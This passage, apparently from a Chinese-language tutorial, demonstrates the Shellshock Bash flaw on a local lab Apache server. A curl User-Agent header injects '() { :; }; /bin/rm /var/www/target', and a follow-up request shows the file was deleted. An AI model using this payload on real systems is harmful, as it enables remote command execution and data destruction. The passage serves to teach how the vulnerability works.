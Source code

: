 ```
REMOTE_ADDR=192.168.0.1
SHLVL=1
SERVER_NAME=192.168.0.1
SERVER_SOFTWARE=Apache/2.2.22 (Debian)
QUERY_STRING=
SERVER_ADDR=192.168.0.1
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
_=/usr/bin/env
</pre>
</body>
</html>

```

再来试试使用curl设置一个user-agent玩玩：

```
$ curl -A "() { :; }; /bin/rm /var/www/target" http://192.168.0.1/poc.cgi

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator,
webmaster@localhost and inform them of the time the error occurred,
and anything you might have done that may have
caused the error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>

```

上面已经把/var/www/target给删除了，再来看看：

```
$ curl http://192.168.0.1/target

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /target was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Debian) Server at 192.168.0.1 Port 80</address>
</body></html>

```
